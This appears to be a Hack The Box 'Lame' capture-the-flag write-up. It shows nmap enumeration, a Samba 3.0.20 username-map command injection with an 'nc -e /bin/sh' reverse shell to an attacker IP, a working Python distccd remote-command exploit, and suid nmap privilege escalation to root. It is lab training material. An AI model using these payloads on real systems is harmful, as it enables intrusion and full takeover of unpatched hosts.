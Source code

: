 ```yaml
---
layout: single_c
title:  "Hack The Box - Lame Writeup"
date:   2020-06-26 10:43:16 +0530
categories: HTB
tags: OSCP
classes: wide
---
```

### Hack The Box - Lame


## Enumeration

Start with an `nmap` scan.

#### Nmap
```bash
Nmap scan report for lame.com (10.10.10.3)
Host is up, received user-set (0.26s latency).
Scanned at 2020-06-21 02:01:21 EDT for 582s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 02:11:03 2020 -- 1 IP address (1 host up) scanned in 583.83 seconds
```

We have quite a few attack vectors.

### vsftpd 2.3.4

```bash
kali@kali:~$ searchsploit vsftpd 2.3.4
kali@kali:~$ searchsploit vsftpd 2.3.4 | cut -b -100
----------------------------------------------------------------------------------------------------
 Exploit Title                                                                                      
                                                                                                    
----------------------------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            
----------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

We have a back door in this version of `ftp` which can be triggered by sending `:)` at the end of username. But this exploit failed and did not give a shell.  

# Method 1 (Samba 3.0.20 Without Metasploit)

#### smbmap
```bash
kali@kali:~/Desktop/htb/lame$ smbmap -H lame.com
[+] Finding open SMB ports....
[+] User SMB session established on lame.com...
[+] IP: lame.com:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbmap` shows that the share `/tmp` is accessible. I couldn't find anything interesting in there. We can also see that the `samba` version is `3.0.20`.

#### Searchsploit
```bash
kali@kali:~$ searchsploit samba 3.0.20 | cut -b -150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    
Samba < 3.0.20 - Remote Heap Overflow                                                                               
------------------------------------------------------------------------------------------------------------------------------------------------------
```

There is a remote code execution vulnerability in this version of `samba`. And there is an msf exploit for this.

### Understanding the metasploit code

Going through the short exploit, we can check the exploit function to see how it works.

```perl
def exploit

		connect
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

The payload is passed in [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)(which is used to execute commands) within the `username` with the added `nohup` command which  executes another command, and instructs the system to continue running it even if the session is disconnected. But for some reason it was not working with `smbclient`. The username was getting capitalized.

We can overcome this by first connecting to `smb` and then passing the `username` in the `logon` command. If you are using kali 2020, you will have to pass the `--option='client min protocol=NT1' ` to `smbclient`

```bash
kali@kali:~/Desktop/htb/lame$ sudo smbclient \\\\lame.com\\tmp --option='client min protocol=NT1'                    
Enter WORKGROUP\root's password:                                                                                     
Anonymous login successful                                                                                          
Try "help" to get a list of possible commands.                                                                       
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.34 1337`"                                                            
Password:    
```

Wait for a connection using `nc`

```bash
kali@kali:~$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 34789
id
uid=0(root) gid=0(root)
```

We are root!

I also found a [python script](https://github.com/amriunix/CVE-2007-2447) for exploiting this. We can also achieve root using this script.
# Method 2 (DistCC Daemon RCE)

There is a `distcc` daemon running on port `3632`. There is a `metasploit` module and `nmap` script available for this. 
```bash
kali@kali:~/Desktop/htb/lame$ searchsploit distcc | cut -b -150
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
DistCC Daemon - Command Execution (Metasploit)                              | exploits/multiple/remote/9915.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Looking at the nmap script we can see how the script creates the payload

```bash
 local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }
```
The length of the command is formated to 8 characters and added before the command. 

With the help of this [article](https://vulners.com/openvas/OPENVAS:1361412562310103553) wrote a python script to exploit it. The output contains some output of the `distcc` daemon. We have to add a separator before and after our command to strip out the output. 

```python
import socket
while True:
        cmd = input("cmd>")
        # Separator to pull out the output
        sep = "sep123"
        new_cmd = f"echo -n {sep};{cmd};echo -n {sep}"
        payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(new_cmd):8x}{new_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A"""
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('lame.com', 3632))
        s.sendall(payload.encode())
        print(s.recv(1000).decode().split(sep)[1].strip())
```

## User Shell

Start a `nc` listener to receive the shell

```bash
kali@kali:~/Desktop/htb/lame$ python3 exp.py
cmd>id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cmd>ls
5194.jsvc_up
distcc_d115ebee.stdout
distcc_d13febee.stderr
distccd_d6bdebee.o
distccd_d6c4ebee.i
cmd>nc -e /bin/sh 10.10.14.34 1337
```

```bash
kali@kali:~/Desktop/htb/lame$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 38311
python -c 'import pty;pty.spawn("bash")'
aemon@lame:/tmp$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Root shell

Going through the system we can see that we have an older version of `nmap` binary with `suid` bit set. We can use this get shell.

```bash
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# cat /root/root.txt
cat /root/root.txt
92caac**********************
```

And we are root.